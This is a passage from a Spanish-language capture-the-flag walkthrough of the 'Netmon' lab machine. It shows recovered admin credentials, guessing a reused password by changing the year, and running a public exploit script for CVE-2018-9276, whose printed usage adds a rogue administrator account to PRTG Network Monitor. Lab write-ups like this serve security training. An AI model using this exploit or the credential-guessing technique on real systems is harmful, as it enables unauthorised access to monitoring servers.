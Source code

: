 ¡Bien! Parece que tenemos unas credenciales válidas `prtgadmin:PrTg@dmin2018` para acceder al panel y explotar la RCE.

## VALIDACION DE LAS CREDENCIALES

Vaya, probamos las credenciales y no son correctas, que raro. Puede ser que el back up sea de otro año, igual el administrador reutiliza la misma contraseña cambiando el año, probemos con `PrTg@dmin2019`.

<p style="text-align:center;"><img src="../assets/images/Netmon/panel.png"></p>

¡Pum! Credenciales válidas, ya podemos explotar la vulnerabilidad antes mencionada.

## EXPLOTACION DE LA VULNERABILIDAD

La vulnerabilidad a explotar es la siguiente *CVE-2018-9276*, utilizamos el script dado `46527.sh`.

```
 ./46527.sh

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'void4m0n' in the administrators group with password 'hacked' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 

```
